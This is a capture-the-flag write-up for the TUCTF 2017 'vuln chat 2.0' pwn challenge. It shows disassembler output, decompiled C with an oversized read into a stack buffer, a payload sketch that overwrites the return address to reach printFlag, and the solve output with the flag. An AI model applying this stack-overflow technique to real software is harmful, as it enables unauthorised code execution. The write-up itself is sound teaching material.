 # vuln chat 2.0
100 point  
  
Djinn has got some new intel for us. And I think he's giving us a second chance. But he will only speak with you. Let's see what he's got to say.  
  
nc vulnchat2.tuctf.com 4242  
  
[vuln-chat2.0](https://github.com/j3rrry/CTF/raw/master/2017/TU/Pwn/vuln%20chat%202.0/vuln-chat2.0) - md5: d0fe412783aaaeeddc2a6504d6dff631  
libc.so.6 - md5: f71e966c590bfb1f53ea3410f8b489d4  

------------------

```radare2
[0x08048460]> iz
vaddr=0x08048750 paddr=0x00000750 ordinal=000 sz=50 len=49 section=.rodata type=ascii string=----------- Welcome to vuln-chat2.0 -------------
vaddr=0x08048782 paddr=0x00000782 ordinal=001 sz=22 len=21 section=.rodata type=ascii string=Enter your username:
vaddr=0x08048798 paddr=0x00000798 ordinal=002 sz=5 len=4 section=.rodata type=ascii string=%15s
vaddr=0x0804879d paddr=0x0000079d ordinal=003 sz=13 len=12 section=.rodata type=ascii string=Welcome %s!\n
vaddr=0x080487aa paddr=0x000007aa ordinal=004 sz=22 len=21 section=.rodata type=ascii string=Connecting to 'djinn'
vaddr=0x080487c0 paddr=0x000007c0 ordinal=005 sz=37 len=36 section=.rodata type=ascii string=--- 'djinn' has joined your chat ---
vaddr=0x080487e8 paddr=0x000007e8 ordinal=006 sz=67 len=66 section=.rodata type=ascii string=djinn: You've proven yourself to me. What information do you need?
vaddr=0x0804882b paddr=0x0000082b ordinal=007 sz=5 len=4 section=.rodata type=ascii string=%s:
vaddr=0x08048830 paddr=0x00000830 ordinal=008 sz=32 len=31 section=.rodata type=ascii string=djinn: Alright here's you flag:
vaddr=0x08048850 paddr=0x00000850 ordinal=009 sz=30 len=29 section=.rodata type=ascii string=djinn: flag{1_l0v3_l337_73x7}
vaddr=0x08048870 paddr=0x00000870 ordinal=010 sz=31 len=30 section=.rodata type=ascii string=djinn: Wait thats not right...
vaddr=0x0804888f paddr=0x0000088f ordinal=011 sz=13 len=12 section=.rodata type=ascii string=Ah! Found it
vaddr=0x0804889c paddr=0x0000089c ordinal=012 sz=20 len=19 section=.rodata type=ascii string=/bin/cat ./flag.txt
vaddr=0x080488b0 paddr=0x000008b0 ordinal=013 sz=35 len=34 section=.rodata type=ascii string=Don't let anyone get ahold of this
```
```radare2
[0x08048460]> afl~printFlag
0x08048672    1 65           sym.printFlag
```
```C
int doThings()
{
  char buf; // [sp+1h] [bp-27h]@1
  char v2; // [sp+15h] [bp-13h]@1

  puts("----------- Welcome to vuln-chat2.0 -------------");
  printf("Enter your username: ");
  __isoc99_scanf("%15s", &v2);
  printf("Welcome %s!\n", &v2);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: You've proven yourself to me. What information do you need?");
  printf("%s: ", &v2);
  read(0, &buf, 0x2Du);
  puts("djinn: Alright here's you flag:");
  puts("djinn: flag{1_l0v3_l337_73x7}");
  return puts("djinn: Wait thats not right...");
}
```
`char buf; // [sp+1h] [bp-27h]@1`  
`read(0, &buf, 0x2Du);`  
`payload = "1" * (0x27 + 4) + printFlag()`  
```bash
# python solve.py
[+] Opening connection to vulnchat2.tuctf.com on port 4242: Done
[*] Switching to interactive mode
djinn: Alright here's you flag:
djinn: flag{1_l0v3_l337_73x7}
djinn: Wait thats not right...
Ah! Found it
TUCTF{0n3_by73_15_4ll_y0u_n33d}
Don't let anyone get ahold of this
[*] Got EOF while reading in interactive
$
```
